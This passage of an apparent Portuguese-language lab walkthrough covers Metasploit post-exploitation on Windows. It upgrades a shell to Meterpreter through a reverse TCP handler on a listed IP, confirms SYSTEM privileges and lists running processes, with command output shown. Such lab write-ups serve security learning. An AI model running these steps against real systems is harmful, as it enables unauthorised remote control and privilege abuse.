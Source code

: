 ### **<a id="12">4. Select that session for use</a>**

Agora vamos executar o exploit com o comando `run`.

```bash

msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.18.20.23:4433
[*] Post module execution completed

```

O exploit foi executado com sucesso e agora temos uma shell com privilégios de administrador.

Agora vamos selecinar a sessão que criamos anteriormente utilizando o comando `sessions -i 1`.

### **<a id="13">5. Verify that we have escalated to NT AUTHORITY\SYSTEM.</a>**

Para isso vamos rodar o comando `getuid` para verificar se temos privilégios de system.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Como podemos ver acima, temos privilégios de system.

### **<a id="14">6. List all of the processes running via the 'ps' command.</a>**

Vamos listar todos os processos em execução utilizando o comando `ps`.

```bash

meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 140   564   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 484   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 556   1984  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 564   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 612   556   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 624   604   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 664   604   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 712   612   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 720   612   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
```